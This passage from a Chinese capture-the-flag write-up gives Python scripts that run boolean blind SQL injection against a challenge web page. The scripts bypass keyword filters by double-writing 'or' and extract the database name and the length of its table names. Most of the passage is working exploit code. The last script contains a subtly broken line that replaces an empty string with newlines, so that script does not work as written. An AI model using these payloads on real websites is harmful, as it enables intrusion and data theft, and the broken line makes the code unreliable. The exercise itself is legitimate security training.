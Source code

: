 另外，本题也可以用 `exp` 和 `extractvalue` 函数。

## 认真一点！
过滤了 `and`，`union`，空格，逗号等等，`or` 需要双写绕过。之后进行布尔盲注。
爆数据库名长度：
```python
import requests

success = 'You are in'
url = 'http://ctf5.shiyanbar.com/web/earnest/index.php'

for i in range(1, 30):
  data = {'id':"0'oorr(length(database())=%s)oorr'0" % i}
  print(data)
  r = requests.post(url, data=data)
  if success in r.text:
    print('Finished, len = %s' % i)
    break
```
得到数据库名长度为 18。爆数据库名：
```python
import requests
import string

success = 'You are in'
url = 'http://ctf5.shiyanbar.com/web/earnest/index.php'
chrset = string.digits + string.ascii_lowercase + '_!~'
db = ''

for i in range(1, 19):
  for j in chrset:
    data = {'id':"0'oorr(mid(database()from(%s)foorr(1))='%s')oorr'0" % (i,j)}
    print(data)
    r = requests.post(url, data=data)
    if success in r.text:
      db += j
      print(db)
      break
```

得到数据库名 `ctf_sql_bool_blind`。爆表名长度：
```python
import requests
import string

success = 'You are in'
url = 'http://ctf5.shiyanbar.com/web/earnest/index.php'
chrset = string.digits + string.ascii_lowercase + '_!~'
i = 1

while True:
  val = "0'oorr((select(mid(group_concat(table_name separatoorr'@')from(%s)foorr(1)))from(infoorrmation_schema.tables)where(table_schema)=database())='')oorr'0" % i
  data = {'id': val.replace('', chr(0x0a))}
  print(data)
  r = requests.post(url, data=data)
  if success in r.text:
    print('Finished, len = %s' % i)
    break
  i += 1
```

